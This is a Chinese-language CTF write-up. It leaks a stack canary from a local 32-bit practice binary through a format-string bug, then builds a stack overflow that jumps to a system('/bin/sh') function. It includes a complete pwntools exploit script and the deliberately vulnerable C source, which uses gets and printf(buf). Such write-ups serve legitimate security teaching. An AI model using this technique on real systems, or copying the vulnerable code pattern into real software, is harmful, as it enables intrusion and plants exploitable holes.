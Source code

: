 ```yaml
---
layout:     post
title:      模版
subtitle:   解题思路
date:       2018-07-05
author:     Mao
header-img: img/home-bg-geek.jpg
catalog: true
tags:
    - PWN
    - 栈溢出
---
```




## 所需环境

环境要求

> ubuntu 16.04 64bit
>
> python 2.7



所需工具

> pwntools
>
> gdb-peda
>
> 32位 ida





## 分析过程

找到system地址,0x08048553

system('/bin/sh')

![image-20180821100234389](https://ws2.sinaimg.cn/large/006tNbRwgy1fvckrsbbj3j30vs042dh8.jpg)



泄露canary的值，以及与printf的偏移地址

![image-20180821110549995](https://ws3.sinaimg.cn/large/006tNbRwly1fv0wl77h7gj30sw03qmxw.jpg)

从0xffffd470开始，偏移为5

![image-20180821110619364](https://ws2.sinaimg.cn/large/006tNbRwly1fv0wlalzynj30vu05smy5.jpg)

覆盖canary的值，这个canary的值是mian函数产生的，先覆盖缓冲区开头到canary的值，然后覆盖canary到ebp的值，后面就跟着返回system返回地址

启用GS选项之后，会在函数执行一开始先往栈上保存一个数据，等函数返回时候检查这个数据，若不一致则为被覆盖，这样就跳转进入相应的处理过程，不再返回，因此shellcode也就无法被执行，这个值被称为“Security cookie”。





在xor这里下断点，0x080485ED

![image-20180821100728994](https://ws1.sinaimg.cn/large/006tNbRwly1fv0wldr5uij30ky04igmt.jpg)



看到canary的偏移为15，printf(%15$x')

![image-20180821111010008](https://ws4.sinaimg.cn/large/006tNbRwly1fv0wlg42rvj30uo05k75c.jpg)



计算第一个gets与canary的偏移

因为canary的赋值是从v5而来所以这里计算s和v5的偏移

0x2c-0x04=40

![image-20180821111602583](https://ws1.sinaimg.cn/large/006tNbRwly1fv0wlhxh43j30cs060js5.jpg)



双击变量

![image-20180821111522777](https://ws3.sinaimg.cn/large/006tNbRwly1fv0wlmkx45j30c001q3yl.jpg)

![image-20180821111539608](https://ws2.sinaimg.cn/large/006tNbRwly1fv0wlravemj30g601qt8u.jpg)





计算canary值的地址 p/x 0xffffd470+0x3c = 0xffffd4ac

![image-20180821101009908](https://ws1.sinaimg.cn/large/006tNbRwly1fv0wltapomj30wu0ayn0p.jpg)



EBP: 0xffffd4b8

计算canary 到 存放ebp的地址的长度

p/d 0xffffd4b8 - 0xffffd4ac =12



## 解题思路

思路



exp.py

```python
#!/usr/bin/python env

from pwn import *

sh = process('./binary_200')

system_addr = 0x08048553#system('/bin/sh')
leak_canary = '%15$x'
sh.sendline(leak_canary)
canary_cookie = int(sh.recv(),16)
#print hex(canary)

sh.sendline('a'*40 + p32(canary_cookie) + 'b'*12 +p32(system_addr))

sh.interactive()

```



bamboofox.c

```c
#include <stdio.h>

#include <stdlib.h>


void canary_protect_me(void){
    system("/bin/sh");
}

int main(void){
    setvbuf(stdout, 0LL, 2, 0LL);
    setvbuf(stdin, 0LL, 1, 0LL);
    char buf[40];
    gets(buf);
    printf(buf);
    gets(buf);
    return 0;
}

```



## 总结



